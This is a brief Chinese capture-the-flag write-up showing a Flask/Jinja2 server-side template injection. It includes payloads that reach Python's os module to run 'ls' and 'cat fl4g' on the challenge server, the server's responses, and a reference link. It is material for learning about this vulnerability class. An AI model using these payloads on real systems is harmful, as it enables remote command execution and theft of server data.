 ## Web_python_template_injection

基础模板注入

试一下

```
/{{1+1}}
```

返回了

```
URL http://111.198.29.45:40527/2 not found
```

发现可以用chrome hackbar扩展自带的ssti模板直接注入

```
/{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```

返回

```
URL http://111.198.29.45:40527/fl4g index.py not found
```

读一下/fl4g就可

```
{{ config.__class__.__init__.__globals__['os'].popen('cat%20fl4g').read() }}
```

### 参考资料

Flask/Jinja2 SSTI && python 沙箱逃逸：https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/](https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-沙箱逃逸/)